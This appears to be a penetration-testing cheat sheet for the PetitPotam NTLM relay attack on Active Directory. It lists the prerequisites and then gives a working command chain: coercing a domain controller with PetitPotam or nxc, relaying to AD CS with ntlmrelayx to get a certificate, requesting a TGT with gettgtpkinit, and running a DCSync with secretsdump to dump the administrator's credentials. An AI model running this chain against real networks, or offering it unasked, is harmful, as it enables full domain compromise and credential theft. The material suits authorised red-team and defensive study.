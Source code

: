 ___





## PetitPotam (MS-EFSRPC)
___
### Attack requirements

| Feature / Component       | Required for PetitPotam | Required for Full Relay to DA via AD CS |
| ------------------------- | ----------------------- | --------------------------------------- |
| EFSRPC                    | ✅ Yes                   | ✅ Yes                                   |
| NTLM Enabled              | ✅ Yes                   | ✅ Yes                                   |
| SMB/LDAP Signing Disabled | ✅ Yes (on relay target) | ✅ Yes (on certsrv or LDAP)              |
| AD CS Installed           | ❌ No                    | ✅ Yes                                   |
| Vulnerable AD CS Template | ❌ No                    | ✅ Yes                                   |
| EPA / Channel Binding Off | ❌ No                    | ✅ Yes                                   |

### Identify
---
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```
shorthand
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o M=pe
```

### Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
### Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
OR coerce with nxc
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> M=pe
```

You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
[https://github.com/dirkjanm/PKINITtools.git](https://github.com/dirkjanm/PKINITtools.git)
```PowerShell
python3 gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```